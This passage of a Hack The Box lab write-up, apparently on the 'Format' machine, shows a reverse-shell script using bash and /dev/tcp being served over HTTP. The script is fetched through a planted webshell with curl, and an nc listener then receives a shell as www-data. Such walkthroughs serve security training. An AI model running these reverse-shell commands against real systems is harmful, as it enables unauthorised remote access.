 ![webshell_!](/assets/img/HTB/Evidence/Format/webshell_1.png)

I can't execute a reverse shell directly from the webshell, so I serve the reverse shell payload externally and retrieve it from the webshell using `curl`.

```
❯ cat rev.sh 
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: rev.sh
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ #!/bin/bash
   2   │ bash -c 'bash -i >& /dev/tcp/10.10.14.24/9001 0>&1'
───────┴─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
❯ python -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
```

![webshell_2](/assets/img/HTB/Evidence/Format/webshell_2.png)

```
❯ nc -nvlp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.11.213 53386
bash: cannot set terminal process group (621): Inappropriate ioctl for device
bash: no job control in this shell
www-data@format:~/microblog/junk/uploads$ 
```

